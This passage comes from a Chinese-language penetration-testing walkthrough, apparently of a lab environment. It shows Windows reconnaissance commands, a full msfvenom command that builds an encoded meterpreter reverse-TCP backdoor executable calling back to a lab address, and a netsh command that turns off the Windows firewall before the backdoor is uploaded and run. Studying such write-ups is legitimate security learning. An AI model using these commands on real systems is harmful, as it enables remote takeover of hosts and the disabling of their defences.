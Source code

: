 ![image-20220615150419249](https://yang-typora.oss-cn-beijing.aliyuncs.com/202206151504297.png)

![image-20220615150616100](https://yang-typora.oss-cn-beijing.aliyuncs.com/202206151506890.png)

```java
systeminfo | findstr /B /C:"OS 名称" /C:"OS 版本" ///查看系统版本
    
echo %PROCESSOR_ARCHITECTURE%	///查看系统架构，判断是32位的还是64位的，对接下来选择payload架构时非常重要，可以看到是x86
```

![image-20220615152044151](https://yang-typora.oss-cn-beijing.aliyuncs.com/202206151520203.png)

```
wmic product get name,version		//查询已安装的软件及版本信息
```

![image-20220615153334790](https://yang-typora.oss-cn-beijing.aliyuncs.com/202206151533839.png)

```
查询进程及服务：tasklist 显示映像名称、PID、会话名、内存使用
```

![image-20220615153410260](https://yang-typora.oss-cn-beijing.aliyuncs.com/202206151534315.png)

### 五、内网渗透

#### 1、制作后门

**msfvenom 制作一个名为j2w的exe后门**

```
/usr/bin/msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i -5 -b 'x80' LHOST=192.168.52.128 LPORT=4444 -f exe >j2w.exe
```

![image-20220615110447130](https://yang-typora.oss-cn-beijing.aliyuncs.com/202206151104179.png)

#### 2、关闭防火墙

**在蚁剑终端这个后门之前，先在终端关闭下防火墙，防止弹窗。**

```
netsh advfirewall set allprofiles state off
```

关闭防火墙后，将后门上传上去，在终端执行

<img src="https://yang-typora.oss-cn-beijing.aliyuncs.com/202206151103840.png" alt="image-20220615110357795" style="zoom:67%;" />

<img src="https://yang-typora.oss-cn-beijing.aliyuncs.com/202206151452717.png" alt="image-20220615145125141" style="zoom:67%;" />

<img src="https://yang-typora.oss-cn-beijing.aliyuncs.com/202206151452461.png" alt="image-20220615145246427" style="zoom:67%;" />

#### 3、获取Web主机权限
